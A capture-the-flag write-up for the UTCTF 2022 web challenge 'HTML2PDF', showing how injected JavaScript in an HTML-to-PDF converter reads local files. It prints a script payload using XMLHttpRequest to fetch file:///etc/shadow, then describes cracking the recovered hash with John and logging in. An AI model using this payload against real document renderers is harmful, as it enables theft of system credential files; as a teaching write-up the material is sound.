 ```yaml
---
layout: post
category: writeups
title: "UTCTF 2022"
date: 2022-03-07
head_ctf_categories:
  - web
---
```

# web

## HTML2PDF

![img_name](/assets/img/UTCTF_2022/html2pdf.png){: .image-50 }


We are given a link to a web page.

![img_name](/assets/img/UTCTF_2022/html2pdf_a.png){: .image-50 }


I press the Sumbit button and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_b.png){: .image-50 }



`Rendered by HTML2PDF`: HTML2PDF as the title of the challenge, a glue?

The clue leads me to make some search fon the web and I find:

![img_name](/assets/img/UTCTF_2022/html2pdf_c.png){: .image-50 }


Good! And following the second web link:


![img_name](/assets/img/UTCTF_2022/html2pdf_d.png){: .image-50 }

Very Good! let's try a simple script:

```html
<h1 id=rd>HA HA HA</h1>
<script>
document.getElementById('rd').innerHTML= 'Hello World';
</script>
```
and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_e.png){: .image-50 }

and with another script I try to get the passwd file:


![img_name](/assets/img/UTCTF_2022/html2pdf_f.png){: .image-50 }

I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_g.png){: .image-50 }

there's a nice username:`WeakPasswordAdmin`

So I try to get the shadow file using the following script:

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/shadow");
x.send();
</script
```

![img_name](/assets/img/UTCTF_2022/html2pdf_h.png){: .image-50 }

and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_i.png){: .image-50 }

I can see the  `hash of WeakPasswordAdmin’s password`


I try to use John to crack the password:

![img_name](/assets/img/UTCTF_2022/html2pdf_l.png){: .image-50 }

“sunshine” is the password!

So afte Log in with those credentials I get the flag:

![img_name](/assets/img/UTCTF_2022/html2pdf_m.png){: .image-50 }



